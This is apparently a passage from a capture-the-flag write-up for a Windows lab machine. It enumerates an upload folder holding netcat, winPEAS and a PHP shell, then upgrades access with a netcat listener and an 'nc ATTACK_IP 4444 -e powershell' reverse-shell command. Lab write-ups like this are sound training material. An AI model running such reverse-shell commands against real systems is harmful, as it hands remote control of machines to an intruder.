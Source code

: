 ## Digging into shell

Found user `shaun`. Lets see if we can enumerate more.

Remember that system is Windows-based.

```
C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

26/09/2020  11:45    <DIR>          .
26/09/2020  11:45    <DIR>          ..
26/09/2020  11:45                 0 c.exe
26/09/2020  09:47         8,661,031 esc.exe
26/09/2020  11:45                53 kamehameha.php
26/09/2020  11:34                 0 m.exe
26/09/2020  07:53            59,392 nc.exe
26/09/2020  11:41                 0 r.exe
26/09/2020  11:42                 0 s.exe
26/09/2020  07:45            33,057 winPEAS.bat
26/09/2020  10:52            22,916 winspeas.out.txt
               9 File(s)      8,776,449 bytes
               2 Dir(s)   9,789,427,712 bytes free
```

winPEAS exists. 
Another hacker has been here.

## Read winPEAS output

Read previous winPEAS output in browser, browse to `/upload/winspeas.out.txt`..

Have [added to repo](winpeas.out.txt).

There are numerous processes running at `nt\authority`, '`root`'.

## Getting better shell

In the current directory `C:\xampp\htdocs\gym\upload>` there is a `nc.exe` netcat binary
Use netcat to get powershell.

Listen on attacker machine on 4444.

```
nc -lvp 4444
```

Connect from victim machine and execute powershell on connect.

```
nc ATTACK_IP 4444 -e powershell
```
